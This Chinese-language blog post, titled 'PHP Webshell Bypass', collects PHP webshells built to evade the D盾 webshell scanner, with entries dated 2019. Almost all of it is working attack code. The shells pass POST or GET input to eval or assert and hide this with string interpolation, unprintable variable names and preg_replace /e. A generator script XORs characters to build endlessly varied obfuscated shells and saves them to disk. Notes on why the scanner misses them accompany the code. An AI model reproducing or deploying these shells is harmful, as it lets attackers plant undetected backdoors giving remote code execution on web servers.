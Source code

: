 ```yaml
---
title: "PHP Webshell Bypass"
date: 2019-08-12T21:10:02+08:00
draft: false
tags: ['bypass']
categories: ['bypass']
---
```


准备写一个长期更新的免杀webshell总结

<!--more-->

2019-10-12

一个符号bypass

https://forum.90sec.com/t/topic/513/1

```php
<?php
function test($name){#
    eval($name);
}

test($_GET['code']);
?>
```



2019-08-15

https://evi1.cn/post/bypass-shell/

```php
<?php
$a = $_POST['cmd'];
$var = "phpnb {${eval($a)}}";
```

2019-08-12

![20190812215816](https://y4er.com/img/uploads/20190812215816.png)

2019-08-09

疯狂免杀

![20190809144327](https://y4er.com/img/uploads/20190809144327.png)

2019-08-07

```php
<?php
function a()
{
    return '' + @$_POST['a'];
}

eval(a());
```

再来一个三元表达式的

![20190807111622](https://y4er.com/img/uploads/20190807111622.png)

2019-08-06

常量过D盾

https://secquan.org/Notes/1069997

```php
<?php
sprintf("123");
sprintf("123");
sprintf("123");
$a=$_GET['a'];
define("Test", "$a",true);
assert(TesT);
?>
```



另一种思路反序列化过D盾，代码自己写

再一种思路 创建对象重复定义变量成员过D盾

2019-05-30

ASCII码显示不出来的字符做变量过D盾

<https://github.com/th1k404/unishell>

<http://ascii.911cha.com/>

```php
<?php
if($_GET['␄']){
    $␄=$_GET['␄'];
    @preg_replace("/abcde/e",$␄, "abcdefg");
}
?>
```

可以自己修改

2019-05-21

<https://github.com/yzddmr6/webshell-venom>

利用随机异或无限免杀d盾

蚁剑插件版请移步:

<https://github.com/yzddmr6/as_webshell_venom>

```php
<?php
//code by Mr6
error_reporting(0);
	function randomkeys($length)   
{   
   $pattern = '`~-=!@#$%^&*_/+?<>{}|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';  
    for($i=0;$i<$length;$i++)   
    {   
        $key[$i]= $pattern{mt_rand(0,strlen($pattern)-1)};    //生成php随机数   
    }   
    return $key;   
}   
	function randname($length)   
{   
   $pattern = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ';  
    for($i=0;$i<$length;$i++)   
    {   
        @$key.= $pattern{mt_rand(0,strlen($pattern)-1)};    //生成php随机数   
    }   
    return $key;   
} 
	$str=randomkeys(6); 
	$bname=randname(4);
	$lname=strrev(strtolower($bname));
	$str2="assert";
			echo "<?php \n";
			echo "header('HTTP/1.1 404');\n";
			echo "class  ".$bname."{ public \$c='';\nfunction __destruct(){\n";
	for ($i=0;$i<6;$i++)
	{
		$name="_".$i;
		$str3[$i]=bin2hex($str[$i] ^$str2[$i]);
		echo "$"."$name=";
	echo "'".$str[$i]."'"."^"."\"\\x".$str3[$i]."\";\n";
	}
	$aa='$db=$_0.$_1.$_2.$_3.$_4.$_5;';
	echo $aa;
	echo "\n";
	echo '@$db ("$this->c");}}';
	echo "\n";
	echo "\${$lname}=new {$bname}();\n";
	echo "@\${$lname}->c=\$_POST['Mr6'];\n";
	echo "?>\n";
	@$file=$_GET['file'];
	$html = ob_get_contents();
	if (isset($file)){
	if(file_put_contents($file,$html))
	echo "\n\n\n".$file."   save success!";}
	else {echo "Please input the file name like '?file=xxx.txt'";}
	?>
```



2019-05-11

```php
<?php
function a(){
	return $a=$_POST['1'];
}
@assert(a());
?>
```

![](https://y4er.com/img/uploads/20190511171755.png)

```php
<?php
$value=$key = "a";
foreach($_POST as $key=>$value){
	assert($value);
}
```
![](https://y4er.com/img/uploads/20190511183608.png)
**可以发现的规律是当已经定义的变量和循环的变量名一致时，D盾就不是那么敏感了**